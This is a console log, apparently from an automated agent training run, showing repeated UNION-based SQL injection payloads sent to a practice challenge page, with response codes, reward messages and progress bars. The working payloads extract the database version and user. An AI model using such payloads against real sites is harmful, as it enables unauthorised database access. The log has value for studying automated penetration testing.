Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of

  0%|          | 130/1000000 [1:06:27<8132:43:39, 29.28s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 131/1000000 [1:06:28<5754:57:12, 20.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 132/1000000 [1:06:29<4104:36:41, 14.78s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 133/1000000 [1:06:30<2948:29:29, 10.62s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2-

  0%|          | 134/1000000 [1:06:44<3253:55:11, 11.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 135/1000000 [1:06:45<2343:48:45,  8.44s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 136/1000000 [1:06:45<1700:27:43,  6.12s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 137/1000000 [1:06:46<1251:07:15,  4.50s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 138/1000000 [1:06:48<995:20:00,  3.58s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 139/1000000 [1:06:49<777:03:54,  2.80s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Serve

  0%|          | 140/1000000 [1:07:02<1645:19:36,  5.92s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 141/1000000 [1:07:03<1233:18:16,  4.44s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 142/1000000 [1:07:04<942:25:19,  3.39s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 143/1000000 [1:07:08<1024:32:07,  3.69s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 144/1000000 [1:07:09<788:57:20,  2.84s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 145/1000000 [1:07:10<615:24:29,  2.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server 

  0%|          | 146/1000000 [1:07:56<4314:40:56, 15.54s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--


  0%|          | 147/1000000 [1:09:40<11637:10:14, 41.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 148/1000000 [1:09:42<8304:35:57, 29.90s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 149/1000000 [1:09:42<5887:28:51, 21.20s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 150/1000000 [1:09:43<4203:54:13, 15.14s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 151/1000000 [1:09:46<3111:40:36, 11.20s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 152/1000000 [1:09:48<2352:25:01,  8.47s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 153/1000000 [1:09:48<1713:35:15,  6.17s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 154/1000000 [1:09:49<1276:49:38,  4.60s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 155/1000000 [1:09:50<961:31:46,  3.46s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 156/1000000 [1:09:51<757:01:56,  2.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 157/1000000 [1:09:52<609:11:07,  2.19s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
S

  0%|          | 158/1000000 [1:11:43<9692:45:28, 34.90s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 159/1000000 [1:11:44<6867:08:06, 24.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 160/1000000 [1:11:45<4874:11:15, 17.55s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3


  0%|          | 161/1000000 [1:13:07<10262:09:52, 36.95s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 162/1000000 [1:13:08<7244:14:31, 26.08s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server 

  0%|          | 163/1000000 [1:13:25<6470:11:04, 23.30s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 164/1000000 [1:13:26<4592:44:50, 16.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Se

  0%|          | 165/1000000 [1:16:21<17797:16:16, 64.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1-

  0%|          | 166/1000000 [1:17:53<20147:31:36, 72.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 167/1000000 [1:17:54<14178:16:47, 51.05s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 168/1000000 [1:17:55<10006:00:54, 36.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 169/1000000 [1:17:56<7084:33:13, 25.51s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Serv

  0%|          | 170/1000000 [1:18:36<8337:35:36, 30.02s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 171/1000000 [1:18:37<5913:07:25, 21.29s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 172/1000000 [1:18:38<4216:50:18, 15.18s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 173/1000000 [1:18:39<3035:40:28, 10.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 174/1000000 [1:18:40<2201:40:17,  7.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 

  0%|          | 175/1000000 [1:19:51<7485:06:10, 26.95s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 176/1000000 [1:19:52<5316:02:35, 19.14s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 177/1000000 [1:19:53<3796:12:30, 13.67s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 178/1000000 [1:19:54<2741:21:56,  9.87s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 179/1000000 [1:19:55<2013:19:30,  7.25s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 180/1000000 [1:19:56<1488:40:01,  5.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 181/1000000 [1:19:57<1116:58:56,  4.02s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 182/1000000 [1:19:58<856:27:57,  3.08s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select vers

  0%|          | 183/1000000 [1:23:40<19050:16:49, 68.59s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differe

  0%|          | 184/1000000 [1:24:09<15794:11:58, 56.87s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 185/1000000 [1:24:10<11117:31:35, 40.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 186/1000000 [1:24:11<7859:30:53, 28.30s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 

  0%|          | 187/1000000 [1:25:49<13690:25:31, 49.29s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 188/1000000 [1:25:50<9648:43:31, 34.74s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.al

  0%|          | 189/1000000 [1:30:42<31065:18:43, 111.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 190/1000000 [1:30:42<21813:22:41, 78.54s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 191/1000000 [1:30:43<15344:16:24, 55.25s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 192/1000000 [1:30:44<10829:37:47, 38.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3--
Nothing reponse
Server response is -1
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.al

  0%|          | 193/1000000 [1:31:06<9341:21:09, 33.64s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union sel

  0%|          | 194/1000000 [1:32:13<12154:42:09, 43.77s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
